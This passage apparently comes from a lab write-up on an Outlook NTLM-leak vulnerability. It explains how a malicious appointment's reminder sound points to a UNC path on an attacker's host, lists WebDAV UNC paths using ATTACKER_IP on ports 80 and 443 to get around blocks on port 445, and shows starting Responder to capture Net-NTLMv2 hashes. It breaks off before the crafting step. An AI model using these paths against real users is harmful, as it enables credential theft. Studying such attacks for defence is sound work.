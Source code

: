 UNC is used in Windows operating systems to find network resources (files, printers, shared documents). These paths consist of a double backslash, the IP address or name of the computer hosting the resource, the share name and the file name. For example:

When the victim receives the malicious email, the UNC path directs them to that SMB share, triggering the vulnerability. This causes the system to start an NTLM authentication process against the attacker's machine, leaking a Net-NTLMv2 hash that the attacker can later try to crack.


![](./img/outlook_ntlm/Pasted%20image%2020230608134032.png)



If for some reason the SMB protocol isn't a viable alternative to use, non-server versions of Windows will accept using UNC paths pointing to ports 80 or 443, and use HTTP to retrieve the file from a WebDAV-enabled web server. The syntax of such UNC path is as follows:

`\\ATTACKER_IP@80\foo\bar.wav`

`\\ATTACKER_IP@443\foo\bar.wav`

This may be useful to bypass firewall restrictions preventing outgoing connections to port 445 (SMB).



### Create a malicious meeting/appointment with a custom reminder 

###### How to craft a Malicious Appointment

Let's craft a malicious email containing an appointment with the required parameters to trigger it.

Since we expect the victim to trigger an authentication attempt against the attacker on port 445, we will set up Responder to handle the authentication process and capture the NetNTLM hash for us.

Starting Responder: 

Command: 

```
sudo responder -I tun0

```

![]()./img/outlook_ntlm/Pasted%20image%2020230608134817.png)


We are now ready to trigger an authentication attempt via the Outlook vulnerability.
